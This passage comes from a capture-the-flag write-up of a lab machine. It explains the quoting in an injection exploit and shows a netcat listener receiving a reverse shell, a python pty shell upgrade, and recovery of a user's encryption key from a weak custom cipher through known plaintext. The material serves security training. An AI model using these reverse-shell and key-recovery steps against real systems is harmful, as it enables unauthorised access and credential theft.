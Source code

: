 There are two tricky parts of this exploit that must be present for this to work -- both occurrences of the word `junk`. The first `junk\`` exists because otherwise the string `'''` is an invalidly terminated string. The `'` must be in the request to terminate the `'` in `'Document:`, so we are forced to fill in the space between the two "outer" `'`s with some junk. The second `\njunk=\'` because otherwise the server rejects the response. Any string that is at least one character long can be used in place of `junk`, but the `\n` and the `\'` must be there.

After testing this exploit locally, by editing the sever script to have a main method and adding some debug print statements, we ensure that this exploit works. For completeness, this is the main method I added to the server script for testing.

```python
if __name__ == "__main__":
    s = Server("127.0.0.1", 8081)
    s.listen()
```

Let's start a listener in one `tmux` pane and run this exploit from another.

```bash
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.168] 54458
www-data@obscure:/$
```

Let's quickly upgrade our shell.

```bash
www-data@obscure:/$ python3 -c 'import pty; pty.spawn("/bin/sh")'
www-data@obscure:/$ export TERM=xterm-256color
www-data@obscure:/$ export SHELL=bash
```

Sweet. Let's get user privileges.

### User Privilege Escalation

In `/home/robert`, we find a series of interesting files.

```bash
$ ls
check.txt
out.txt
passwordreminder.txt
SuperSecureCrypt.py

$ cat check.txt
Encrypting this file with your key should result in out.txt, make sure your key is correct! 
```

`out.txt` and `passwordreminder.txt` are encrypted blobs. Let's see if we can crack this "encryption".

```bash
$ python3 SuperSecureCrypt.py -i out.txt -o /tmp/key -k "$(cat check.txt)" -d
################################
#           BEGINNING          #
#    SUPER SECURE ENCRYPTOR    #
################################
  ############################
  #        FILE MODE         #
  ############################
Opening file out.txt...
Decrypting...
Writing to /tmp/key...

$ cat /tmp/key
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovicha
```
